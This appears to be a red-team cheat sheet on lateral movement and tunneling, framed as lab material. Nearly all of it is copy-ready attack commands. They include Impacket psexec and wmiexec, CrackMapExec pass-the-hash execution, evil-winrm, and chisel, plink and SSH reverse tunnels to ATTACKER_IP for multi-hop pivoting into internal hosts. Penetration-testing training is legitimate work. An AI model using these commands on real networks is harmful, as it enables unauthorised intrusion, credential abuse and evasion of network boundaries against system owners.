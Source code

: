 ```yaml
---
title: "Lateral Movement & Tunneling"
tags: [Lateral-Movement, Tunneling, Chisel, Plink, Pivot]
author: "RedMind"
date: 2025-10-22
---
```


# Lateral Movement & Tunneling

Practical examples for lateral movement primitives and tunneling/pivoting patterns used in labs: psexec, wmiexec, WinRM, chisel reverse tunnels, plink reverse tunnels, and multi-hop pivots.

---

## Quick checklist
- [ ] Prepare chisel/plink on attacker and foothold
- [ ] Use Impacket (psexec/wmiexec) for execs
- [ ] Use WinRM (evil-winrm) where available
- [ ] Create reverse tunnels from foothold to attacker (chisel/plink)
- [ ] Chain tunnels for multi-hop pivoting when needed
- [ ] Remove tunnels & scheduled tasks after use

---

## Lateral movement primitives
### psexec (Impacket)
```bash
python3 /usr/share/impacket/examples/psexec.py 'DOMAIN/Administrator:Pass@TARGET'
```

### wmiexec (Impacket)
```bash
python3 /usr/share/impacket/examples/wmiexec.py 'DOMAIN/user:Pass@TARGET'
```

### CrackMapExec (quick exec/PTH)
```bash
crackmapexec smb TARGET -u 'user' -p 'Pass' --exec-method smbexec -x 'whoami && hostname'
crackmapexec smb TARGET -u 'Administrator' -H '<NTLM_HASH>' --exec-method smbexec -x 'whoami'
```

### Evil-WinRM
```bash
evil-winrm -i TARGET -u 'user' -p 'Pass'
```

---

## Tunneling & pivoting examples

### Chisel reverse tunnel
**Attacker:**
```bash
./chisel server -p 8000 --reverse
```

**Foothold (Windows):**
```powershell
# reverse TARGET2's RDP port via foothold
.\chisel.exe client ATTACKER_IP:8000 R:3389:TARGET2:3389
```

**Attacker:**
- Connect RDP to `localhost:3389` to reach TARGET2.

### Plink (PuTTY) reverse tunnel
**Foothold:**
```powershell
plink.exe -R 13389:localhost:3389 attackeruser@ATTACKER_IP -pw 'AttackerPass' -batch
```

**Attacker:**
- RDP to `localhost:13389`.

### SOCKS via SSH
**Foothold:**
```powershell
ssh -R 1080:localhost:1080 attackeruser@ATTACKER_IP -N -f
```

**Attacker:**
- Configure proxychains or browser to `localhost:1080`.

---

## Multi-hop pivot example
- Reverse tunnel foothold→attacker for initial access.
- From attacker connect into foothold and spawn a second reverse to target2 or use SOCKS chaining to reach many internal hosts.

Example flow:
1. Upload `chisel.exe` to foothold (using smbcopy / powershell download).
2. Start chisel client on foothold to reverse target2:3389 to attacker.
3. On attacker run chisel server, then RDP to `localhost:3389`.

---